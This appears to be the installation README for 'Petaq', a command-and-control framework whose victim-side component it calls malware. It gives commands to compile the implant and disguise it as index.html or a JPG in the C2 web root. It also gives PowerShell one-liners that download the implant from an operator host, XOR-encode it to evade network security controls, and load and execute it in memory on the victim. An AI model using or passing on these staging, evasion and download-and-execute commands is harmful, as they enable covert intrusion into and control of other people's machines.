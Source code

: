# Installation
## Information
Petaq has two components, service for the operator, and implant for the victim
* Petaq Service - The Command & Control Service (.NET Core)
* Petaq Implant - The Malware (.NET Framework)
## Configuration
You can tweak the following files to configure the C2 and malware. 
* PetaqService configuration file is Properties/launchSettings.json
* PetaqImplant configuration file is Configuration.cs
## Run
* PetaqService can run using ```dotnet run```
* PetaqImplant can be compiled with Visual Studio, ```csc``` or ```mcs```. Then copy to a location for the victim to download from that link. It's possible to use PetaqService for it as well. The PetaqImplant can be saved as index.html in PetaqService wwwroot, or an image file under wwwroot/tools. As the 0.2 version of Petaq requires .NET System Management Automation for the Powershell execution, you need to reference is using /r switch. This System.Management.Automation can be downloaded using nuget.
```
csc /r:System.Management.Automation.dll /out:malware.exe *.cs
copy malware.exe ../PetaqService/wwwroot/index.html
copy malware.exe ../PetaqService/wwwroot/tools/malware.jpg
```

To evade most network base security controls while tranmission, it's preferred to simply XOR encode the PetaqImplant .NET assembly.  
* Download & Execute the PetaqImplant Directly
```
$m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;$Url='https://YOURIP:YOURPORT/PetaqImplant.exe';$dba=$m.downloaddata($Url);$a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))|Out-Null
```

* Download & XOR & SAVE the PetaqImplant as an Image File
```
$m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;$Url='https://YOURIP:YOURPORT/PetaqImplant.exe';$dba=$m.downloaddata($Url); for($i=0; $i -lt $dba.count ; $i++){$dba[$i] = $dba[$i] -bxor 0x2F}; [System.IO.File]::WriteAllBytes("PetaqImplantXORed.jpg",$dba)
```

* Download & XOR & Execute the XOR Encoded PetaqImplant Image File
```
$m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;$Url='https://YOURIP:YOURPORT/PetaqImplantXORed.jpg';$dba=$m.downloaddata($Url);for($i=0; $i -lt $dba.count ; $i++){$dba[$i] = $dba[$i] -bxor 0x2F}; $a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))|Out-Null
```

